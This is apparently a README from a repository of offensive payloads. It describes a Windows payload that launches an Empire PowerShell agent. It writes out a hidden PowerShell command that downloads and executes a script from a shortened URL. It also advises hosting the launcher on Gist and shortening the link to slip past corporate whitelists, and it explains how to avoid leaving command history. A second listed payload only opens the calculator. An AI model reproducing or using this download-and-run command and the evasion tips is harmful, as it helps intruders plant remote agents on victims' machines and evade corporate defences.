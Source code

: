 # PAYLOADS #

- [win]_empire-PS.txt Payload
This Payload will execute an Empire Powershell launcher, which usually I host on Gist and then use google shortener to shorten the URL.
Most corporate environments are whitelisting both gist.github.com and google, so it is easy to deploy an agent in this way. (of course this payload will leave the command `powershell -W Hidden -nop -noni -c "IEX (New-Object Net.Webclient).downloadstring('https://goo.gl/XXXXX')"` into the cmd history. But you just need to execute it in a cmd to avoid it (no history, but takes more time to type).

- [win]_pop-calc.txt Payload
Will pop-up the classic calculator

- More to come...